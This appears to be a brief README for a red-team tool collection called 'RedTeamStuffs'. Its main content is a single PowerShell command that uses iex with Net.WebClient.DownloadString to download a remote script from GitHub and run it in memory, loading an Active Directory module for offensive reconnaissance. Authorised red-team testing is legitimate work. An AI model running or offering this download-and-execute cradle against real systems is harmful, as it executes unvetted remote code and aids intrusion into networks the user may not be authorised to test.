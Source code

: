 # RedTeamStuffs
A collection of Red Team tools and stuff that have come in handy

# Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

From: https://github.com/samratashok/ADModule/tree/master
